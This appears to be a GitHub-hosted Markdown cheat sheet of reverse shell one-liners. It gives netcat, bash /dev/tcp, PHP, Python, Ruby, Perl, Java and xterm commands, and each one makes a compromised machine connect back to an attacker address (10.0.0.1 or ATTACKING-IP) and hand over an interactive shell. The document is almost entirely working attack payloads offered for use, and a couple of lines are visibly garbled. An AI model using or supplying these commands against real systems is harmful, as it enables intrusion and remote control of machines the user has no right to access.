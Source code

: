 # Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> - **nc -e /bin/sh 10.0.0.1 1234**
>
> - **/bin/sh | nc ATTACKING-IP 80**
>
> - **rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p**
>
> If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
>
> - **rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f**

## Bash Reverse Shells

> - **exec /bin/bash 0&0 2>&0**
>
> - **0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196**
>
> - **exec 5<>/dev/tcp/ATTACKING-IP/80**
>
>   **cat <&5 | while read line; do $line 2>&5 >&5; done**
>
> **or**
>
> - **while read line 0<&5; do $line 2>&5 >&5; done**
>
>
> - **bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1**

## PHP Reverse Shells

> - **php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'** <br>
      (Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
 
## PYTHON Reverse Shells

> - **python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'**

## RUBY Reverse Shells

> - **ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'**

## PERL Reverse Shells

> - **perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'**

## JAVA Reverse Shells

> - **r = Runtime.getRuntime() <br>
> p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) <br>
> p.waitFor()**

## xterm Reverse Shells

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

> - **xterm -display 10.0.0.1:1**

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

> - **Xnest :1**

You’ll need to authorise the target to connect to you (command also run on your host):

> - **xhost +targetip**
